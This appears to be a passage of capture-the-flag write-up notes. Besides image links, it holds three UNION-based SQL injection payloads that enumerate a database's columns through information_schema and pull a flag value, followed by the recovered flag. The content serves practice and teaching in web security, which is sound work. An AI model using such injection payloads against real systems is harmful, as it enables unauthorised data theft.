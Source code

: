 ![[Pasted image 20210429204134.png]]

Payload: **'UNION SELECT 1,2,3,4,5,column_name,7,8 FROM information_schema.columns WHERE table_schema='web_4904' and table_name='flags38364' LIMIT 0,1-- -**

![[Pasted image 20210429204423.png]]

Payload: **'UNION SELECT 1,2,3,4,5,column_name,7,8 FROM information_schema.columns WHERE table_schema='web_4904' and table_name='flags38364' LIMIT 1,1-- -**

![[Pasted image 20210429204356.png]]

Payload: **'UNION SELECT 1,2,id,4,5,zaflag,7,8 FROM flags38364 LIMIT 0,1-- -**

![[Pasted image 20210429204623.png]]

### Flag

**SpeishFlag{0xiTyXDGEbDJafiQZArBNprEWKCQnwwK}**


## File Upload

![[Pasted image 20210429215036.png]]

![[Pasted image 20210429222630.png]]

![[Pasted image 20210429222649.png]]